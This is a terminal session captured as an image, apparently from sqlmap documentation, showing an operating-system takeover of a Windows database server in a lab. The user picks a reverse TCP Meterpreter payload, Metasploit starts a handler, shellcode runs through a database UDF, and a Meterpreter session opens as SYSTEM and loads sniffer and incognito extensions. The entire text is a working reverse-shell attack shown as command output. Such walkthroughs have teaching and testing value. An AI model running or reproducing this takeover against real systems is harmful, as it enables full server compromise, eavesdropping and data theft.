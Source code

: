 ```
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
&gt; 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
&gt; 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, please wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|

    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD =&gt; windows/meterpreter/reverse_tcp
EXITFUNC =&gt; thread
LPORT =&gt; 60641
LHOST =&gt; 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_bineval', 
please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -&gt; 192.168.136.129:1689) at Mon Apr 11 
hh:mm:52 +0100 2011

meterpreter &gt; Loading extension espia...success.
meterpreter &gt; Loading extension incognito...success.
meterpreter &gt; [-] The 'priv' extension has already been loaded.
meterpreter &gt; Loading extension sniffer...success.
meterpreter &gt; System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter &gt; Server username: NT AUTHORITY\SYSTEM
meterpreter &gt; ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0

Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0

meterpreter &gt; exit
```